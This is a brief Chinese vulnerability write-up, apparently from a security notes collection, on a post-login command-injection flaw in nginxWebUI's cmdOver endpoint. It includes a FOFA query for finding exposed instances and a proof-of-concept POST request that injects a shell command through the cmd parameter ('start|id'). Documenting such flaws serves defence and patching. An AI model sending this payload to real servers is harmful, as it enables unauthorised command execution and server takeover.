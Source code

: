 # nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

```
nginxWebUI
```

## FOFA

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20220628112638269](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281126396.png)



验证请求包

```
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![image-20220628112938342](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281129491.png)